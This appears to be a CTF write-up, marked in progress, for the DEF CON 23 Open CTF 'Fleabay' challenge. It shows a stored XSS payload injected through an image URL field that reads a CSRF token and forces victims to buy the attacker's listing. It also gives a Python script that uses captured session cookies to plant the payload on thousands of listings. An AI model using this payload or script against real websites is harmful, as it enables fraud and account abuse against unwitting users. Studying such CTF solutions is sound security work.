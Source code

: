 # CTF write-up: defcon23 open CTF No.07
Challenge | Tags | Point | Author
--- | --- | ---
Fleabay 100 | binary,exploitation,pwnable | 200 | soen

## English

### Challenge description
Fleabay 100 100 --- Fleabay has gotten really popular, and Mr. Moneybags is perusing the listings - can you sell him $100,000 worth of stuff?
10.0.66.91

### write-up
(in progress)

Auctuary this challange is very simmiller to Fleabay challange in last year.

First, access to the web page.

The web service is to sell and buy some images and exchange money.
The ame is ean a big money.
Our strategy is inject javascript code that another user would force parchasing our stuff.

1. Accessing the web.
2. Create account.
3. Regist the image for sale on it.
4. I found I was able to inject some in image url field. 
Point:
```
<img src="(image field)" />
```
To:
```
<img src=""><script>var r=new XMLHttpRequest();r.open('GET','/listing/XXX/',true);r.onload=function(){if(r.status>=200&&r.status<400){var d=r.responseText;var c=d.search('csrf_token=.{12}\"');var t=d.substring(c+11,c+11+12);var s=new XMLHttpRequest();s.open('GET','/listing/XXX/?buy=1&csrf_token='+t,true);s.send();}};r.send();</script><img src="" />
```
XXX is image id.

5. getting authentication information from browser developer tool.
```
csrftoken = "rjQFXg4rkYDnzYSykqXoUmyJ7atzIcxG"
sessionid = "07ze6nb37o5cy1sk8rn55jbpto1skzuv"
```

6. I made auto post script.

exploit.py:
```
import urllib3 # Requires: < 1.9
import re

http = urllib3.PoolManager()
newurl = "http://10.0.66.91/listings/new/"
updateurl = "http://10.0.66.91/listing/%d/edit/"
csrftoken = "rjQFXg4rkYDnzYSykqXoUmyJ7atzIcxG"
sessionid = "07ze6nb37o5cy1sk8rn55jbpto1skzuv"

def do_():
    r = http.request_encode_body('POST', newurl, headers={"Cookie":"csrftoken=%s;sessionid=%s" % (csrftoken, sessionid)}, fields={"name":"Item 1","details":"test","image_src":"test","cost":"%u" % (2**32)-1,"csrfmiddlewaretoken":csrftoken,"submit":"Submit"},encode_multipart=False, redirect=False)
    for urllike in re.finditer(r'http://10.0.66.91/listing/([0-9]+)/', r.headers['location']):
        num = int(urllike.group(1))
        r = http.request_encode_body('POST', updateurl % num, headers={"Cookie":"csrftoken=%s;sessionid=%s" % (csrftoken, sessionid)}, fields={"name":"Item %d" % num,"details":"test","image_src":"\"><script>var r=new XMLHttpRequest();r.open('GET','/listing/%(num)d/',true);r.onload=function(){if(r.status>=200&&r.status<400){var d=r.responseText;var c=d.search('csrf_token=.{12}\"');var t=d.substring(c+11,c+11+12);var s=new XMLHttpRequest();s.open('GET','/listing/%(num)d/?buy=1&csrf_token='+t,true);s.send();}};r.send();</script><img src=\"" % dict(num=num),"cost":"%u" % 4294967295 ,"csrfmiddlewaretoken":csrftoken,"Referer":updateurl % num}, encode_multipart=False, redirect=False)
        return num
    else:
        raise ValueError("unexpected response: %d: %s" % (r.status, r.data.decode('utf-8')))

for i in range(2048):
    num = do_()
    print("[+] placed XSS trap on item #%d" % num)
```

7. run the script and wait.

8. login to page with browser.

9. found the key on the page.


